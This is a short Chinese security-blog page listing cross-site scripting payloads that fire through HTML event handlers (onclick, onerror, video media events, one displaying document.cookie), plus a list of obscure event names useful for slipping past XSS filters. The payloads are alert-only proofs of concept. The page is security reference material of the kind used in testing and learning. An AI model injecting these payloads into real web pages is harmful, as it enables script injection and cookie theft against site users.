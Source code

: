 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS产生事件
事件能让javascript代码运行:
```
<input type=''button'' value=''click me'' onclick=''alert('xss')'' />
<img src=''#'' onerror=alert(/xss/)>
<video src="http://www.youku.com/12544.ogg" onloadedmetadata="alert(document.cookie);"
ondurationchanged="alert(/xss2/);"
ontimeupdate="alert(/xss1/);"
tabindex="0">
</video>
```
可用事件:
```
onResume
onReverse
onSeek
onRowDelete
onRowInserted
onURLFlip
onTimeError
onSynchRestored
onRepeat
onTrackChange
onURLFlip
onRepeate
onMediaComplete
onMediaError
onPause
onProgress
onOutOfSync
oncontrolselect
onlayoutcomplete
onafterprint
onbeforeprint
ondataavailable
ondatasetchanged
ondatasetcomplete
onerrorupdate
onrowenter
onrowexit
onrowsdelete
onrowsinserted
onselectionchange
onbounce
onfinish
onstop
onresizeend
```
__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)
